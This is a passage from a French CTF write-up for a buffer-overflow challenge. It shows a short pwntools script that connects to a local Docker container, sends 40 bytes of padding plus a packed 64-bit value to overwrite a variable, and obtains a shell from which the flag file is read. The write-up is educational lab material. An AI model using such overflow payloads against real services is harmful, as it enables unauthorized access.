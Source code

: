 Il suffit maintenant d'effectuer ceci sur le conteneur docker et pour cela, nous allons utiliser un script python.

> Dans le cas d'un CTF le conteneur tourne sur un serveur du CTF, ici on peut le lancer localement avec `docker compose up --detach` (dans le dossier où se trouve le `docker-compose.yml`).  
> Pour arrêter le conteneur: `docker compose down` :wink:

## Le script

Voici `bofbof.py`

```python
from pwn import *

target = remote("localhost", 4000)      ## connection au docker
print(target.recv())
padding = b"A"*40                       ## construction de la réponse
payload = p64(0x1122334455667788)
print(padding+payload)
target.sendline(padding+payload)        ## envoi de la réponse
target.interactive()                    ## laisse le terminal du docker ouvert 
``` 

Lançons `bofbof.py` et regardons ce que cela donne : 

![](../../data/wu6.png)

On a donc réussi à accéder à un terminal et `cat flag.txt` permet d'accéder à `flag.txt`.
